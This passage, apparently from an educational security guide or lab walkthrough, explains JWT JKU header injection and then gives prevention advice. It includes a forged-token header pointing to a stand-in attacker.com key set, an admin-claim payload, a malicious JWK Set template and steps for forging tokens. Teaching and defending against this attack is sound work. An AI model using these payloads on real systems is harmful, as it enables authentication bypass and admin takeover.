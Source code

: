 ### Hard - JKU Header Injection
- **Vulnerability**: Server trusts user-controlled JKU header for key fetching
- **Exploitation**:
  - Host malicious JWK Set on attacker domain
  - Set JKU header to point to malicious endpoint
  - Server fetches attacker's public key
- **Payloads**:
  ```javascript
  // JKU injection attack
  const header = {
    "alg": "RS256", 
    "typ": "JWT",
    "jku": "https://attacker.com/.well-known/jwks.json"
  };
  const payload = {"sub": "admin", "username": "admin", "role": "admin"};
  // Sign with attacker's private key
  ```
- **Malicious JWK Set**:
  ```json
  {
    "keys": [{
      "kty": "RSA",
      "kid": "1",
      "use": "sig",
      "n": "attacker_public_key_modulus",
      "e": "AQAB"
    }]
  }
  ```
- **Steps**:
  1. Register HTTPS domain (e.g., GitHub Pages)
  2. Host malicious JWK Set at `/.well-known/jwks.json`
  3. Generate RSA key pair for signing
  4. Create JWT with JKU header pointing to malicious domain
  5. Sign JWT with attacker's private key
  6. Server fetches attacker's public key and validates successfully

**Prevention:**
- Explicitly specify and validate expected algorithm
- Never accept 'none' algorithm in production
- Whitelist trusted JKU domains
- Use separate keys for signing and verification
- Implement proper key management and rotation

---

## References
- [OWASP Cheat Sheets](https://cheatsheetseries.owasp.org/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [TryHackMe Walkthroughs](https://tryhackme.com/)

---

This guide is for educational purposes only. Always test in a safe, legal environment.
